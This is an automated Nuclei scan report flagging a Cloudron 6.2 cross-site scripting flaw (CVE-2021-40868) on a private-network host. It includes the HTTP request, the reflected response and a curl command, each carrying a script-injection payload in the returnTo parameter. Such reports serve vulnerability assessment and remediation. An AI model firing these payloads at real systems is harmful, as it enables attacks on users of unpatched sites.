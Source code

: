 ### Cloudron 6.2 Cross-Site Scripting (CVE-2021-40868) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-40868**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/login.html?returnTo=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:01 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Cloudron 6.2 Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2021, xss, cloudron |
| Severity | medium |
| Description | In Cloudron 6.2, the returnTo parameter on the login page is vulnerable to cross-site scripting. |
| Remediation | Upgrade to Cloudron 6.3 or higher. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-40868](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-40868) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /login.html?returnTo=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 210
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/login.html?returnTo=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://packetstormsecurity.com/files/164255/cloudron-6.2-cross-site-scripting.html
- https://nvd.nist.gov/vuln/detail/cve-2021-40868
- https://packetstormsecurity.com/files/164183/cloudron-6.2-cross-site-scripting.html
- https://www.cloudron.io/

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36' 'http://192.168.198.179:8080/login.html?returnTo=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)